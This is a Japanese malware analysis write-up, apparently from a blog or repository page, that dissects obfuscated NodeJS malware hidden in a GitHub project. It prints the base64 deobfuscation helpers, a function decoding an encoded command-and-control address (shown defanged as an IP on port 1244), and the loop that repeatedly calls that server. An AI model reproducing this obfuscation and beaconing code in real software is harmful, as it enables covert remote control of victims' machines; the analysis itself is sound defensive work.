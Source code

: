 これは折り返しをするようにしているため、すぐわかりますが、GitHubのデフォルトでは表示領域で折り返さないため、この場合はかなりわかりづらいです。  

![コード内容](./images/code-content-02.png)

さて、ではこの悪性コードの内容を見ていきましょう。

#### 悪性コード(NodeJS)の内容

まず、このコードの難読化は結構簡単です。基本的にはbase64とbase64を少しカスタマイズしたものを使っているだけです。  
以下2つの関数が定義されており、これが使われています。  

- 最初の1文字を消してbase64デコード
```javascript
// t = base64, C = utf8
$=a=>(
    s1=a.slice(1)
    Buffer.from(s1,t).toString(c)
)
```

- base64デコードのみ
```javascript
const e=a=>Buffer.from(a,t).toString(c)
```

これを使ってコードを簡単に難読化しています。正直、かなり単純ですね。  
さて、内容を見ていきましょう。とは言え全部見るのはとても長いので、必要な部分だけ少し見ていきます。  
まず外部アクセスには`request`を使っています。  

```javascript
rq=require($("YcmVxd"+"WVzdA"))
// $()"YcmVxd"+"WVzdA") -> request
```

次に、以下の`l`という関数を使ってC2のURLを取得しています。  
```javascript
l=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=  ";for(var c="",a="",r="",$="",n=0;n<10;n++)c+=t[n],a+=t[10+n],r+=t[20+n],$+=t[30+n];return c=c+r+$,e(a)+e(c)}
```

これを実行すると、`MTQ3LjEyNCaHR0cDovLw4yMTQuMTI5OjEyNDQ=`の文字列からC2情報が取得されます。この場合は以下でした。  
- hxxp[://]147[.]124[.]214[.]129:1244

このエンコードもbase64をメインとしたかなり単純なものです。「C2の検出」でまた触れます。

最終的にこのC2へのアクセスをする個所は以下です。`ht`の関数を実行すると外部通信が始まります。実際に外部通信する個所は`nt`関数ですね。  

- 最終的な実行箇所
```javascript
const ht=async()=>{
    try{
        n=Date.now(),await M(),nt()
    }catch(t){}
};
ht();
let ot=setInterval((()=>{(st+=1)<5?ht():clearInterval(ot)}),6e5);
```
